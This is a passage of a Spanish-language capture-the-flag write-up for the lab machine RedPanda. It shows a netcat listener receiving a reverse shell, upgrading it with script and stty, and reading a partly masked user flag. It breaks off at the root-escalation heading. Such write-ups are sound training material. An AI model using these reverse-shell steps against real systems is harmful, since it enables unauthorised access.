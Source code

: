 Parece que esto funciona. A continuación, lo ejecutaré con bash

![Captura de pantalla de la web](assets/images/Redpandan/imagen_13.png)

Al hacer eso, hay una conexión en mi ncoyente:

```
jorge@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.170 45524
```

Por eso siempre ejecuto con -v, para que me avise de la conexión, aunque no se haya enviado ningún mensaje durante la sesión. Sigue funcionando:

```
jorge@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.170 45524
id
uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)
```

Actualizaré el shell usando scripty stty(explicado aquí ):

```
script /dev/null -c bash
Script started, file is /dev/null
woodenk@redpanda:/tmp/hsperfdata_woodenk$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
woodenk@redpanda:/tmp/hsperfdata_woodenk$
```

Desde aquí puedo agarrar user.txt:

```
woodenk@redpanda:~$ cat user.txt
8080a73c************************
```
# [](#header-1)Shell como root

## [](#header-2)Enumeración linux

El usuario actual está en el logs grupo : 
